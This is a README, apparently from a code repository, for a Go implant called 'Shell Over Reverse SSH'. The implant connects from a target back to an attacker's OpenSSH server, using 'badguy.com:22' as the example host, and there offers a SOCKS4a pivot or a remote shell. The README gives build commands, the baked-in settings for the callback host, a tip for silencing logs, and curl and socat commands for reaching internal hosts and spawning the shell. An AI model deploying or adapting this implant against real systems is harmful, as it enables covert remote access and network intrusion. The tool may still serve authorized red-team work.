 Shell Over Reverse SSH
======================
A simple implant which connects back to an OpenSSH server, requests a port be
forwarded to it from the server, and serves up SOCKS4a or a shell to forwarded
connections.

For legal use only

Building
--------
Compilation requires the Go compiler.  A simple `make` will generate a key and
build the implant with the key baked in.  Running the resulting binary with
`-h` will list commandline options:

```
$ make
go build -trimpath -o bin/genkey cmd/genkey/genkey.go
if ! [ -f cmd/shelloverreversessh/key ]; then  bin/genkey -out cmd/shelloverreversessh/key;  else  touch cmd/shelloverreversessh/key;  fi
if ! [ -h key.pub ]; then ln -s cmd/shelloverreversessh/key.pub; fi
go build -ldflags='' -trimpath -o bin/shelloverreversessh cmd/shelloverreversessh/shelloverreversessh.go

$ ./bin/shelloverreversessh -h
Usage: ./bin/shelloverreversessh [options]

Connects back to an OpenSSH server, requests a port be forwarded from the
server to the implant (i.e. -R), and accepts SOCKS4A requests.  If a forwarded
connection is to be made via the SOCKS listener to the special address
SHELL, instead of a TCP connection, a shell (sh/cmd) is hooked up.

Options:
  -addr address
    	Server address
  -fingerprint string
    	Server host fingerprint
  -key base64
    	SSH private key, base64-encoded (default "oCXpu1Uv0+RjG/ynqm5xU9qXrt5dR+VhIpVcg6dfyubdDw6VLXuSDW+Ppld40UBMCvPFXklvjLwi9rnlN49Bxg")
  -port port
    	SOCKS listen port
  -user username
    	SSH username (default "h4x")
```

### Baked-in config

This should be sufficient for simple testing but at some point it'll probably
be a better idea to set sensible defaults.  The `GOLDFLAGS` environment
variable can be used to bake-in default value, as would be passed to Go's
`-ldflags`.

The available default values to set are:

Value       | Example         | Description
------------|-----------------|------------
main.addr   | `badguy.com:22` | Server address or hostname
main.hostfp | `SHA256:pj9OCPiqVVLraIJjpmIdlwg6jOY/o4BQ5uwBx0GTB0g` | Host fingerprint, unset to not validate the host's fingerprint (bad idea); try `make getlocalkey`
main.user   | `noth4x`        | SSH username, default is `h4x`
main.port   | `12345`         | SOCKS listen port, unset for a default randomish port

In practice, building looks something like

```sh
make clean && make GOLDFLAGS="-X main.hostfp=SHA256:pj9OCPiqVVLraIJjpmIdlwg6jOY/o4BQ5uwBx0GTB0g -X main.addr=example.com:22 -X main.port=5555"
# Implant is ready in bin/
```

### Disabling logging
At the moment, there's no good way to disable the implant's logging to stderr.
Either redirect stderr somewhere else (i.e. `2>/dev/null`) or edit the code to
tell the logging library to not log to stderr (i.e.
`log.SetOutput(io.Discard)`).

### Make targets

There are a few other make targets:

Target        | Description
--------------|------------
`clean`       | Removes the compiled implant.  Handy when changing baked-in defaults.
`distclean`   | Slightly easier than `cd .. && rm -rf shelloverreversessh && git clone ...`
`getlocalkey` | Grabs SSH hostkey fingerprints from localhost.  Also an easy way to lookup the syntax for it.

Actually using this thing
-------------------------
First thing to do is get the implant connected back to the server.

1. Build it.  `make` plus `GOLDFLAGS` is the easiest way.
2. Make sure the right user is on the SSH server and the key from `key.pub` is
   in the user's `authorized_keys`.
3. Run the implant (`bin/shelloverreversessh`) on target.  OpenSSH on the
   server should start listening on a port for forwarding connection to the
   implant.

### SOCKS4a
The listening port is functionally a SOCKS4a proxy, much like the OpenSSH
client's `-R $PORT`.

```shell
curl --proxy socks4a://127.0.0.1:$PORT https://insidetarget
```

### Shell
Asking the implant to proxy to the special address `SHELL` causes the implant
to spawn a shell (`/bin/sh` or `cmd.exe`) and hook up the forwarded connection
to it.

```shell
socat socks4a:127.0.0.1:SHELL:1,socksport=$PORT -
```

Keys
----
An ed25519 private key will be baked in at compile-time and can be generated
with the included [genkey](./cmd/genkey) program.  This is all taken care of by
the makefile.  The public side of the key in OpenSSH authorized_keys format will
be symlinked to `key.pub`.

If compiling by hand, it'll be necessary to make a key before building the
implant.

```
$ cd cmd/shelloverreversessh/
$ ls
shelloverreversessh.go
$ go build
shelloverreversessh.go:37:13: pattern key: no matching files found
$ go run ../genkey
$ go build
$ ls
key
key.pub
shelloverreversessh
shelloverreversessh.go
```
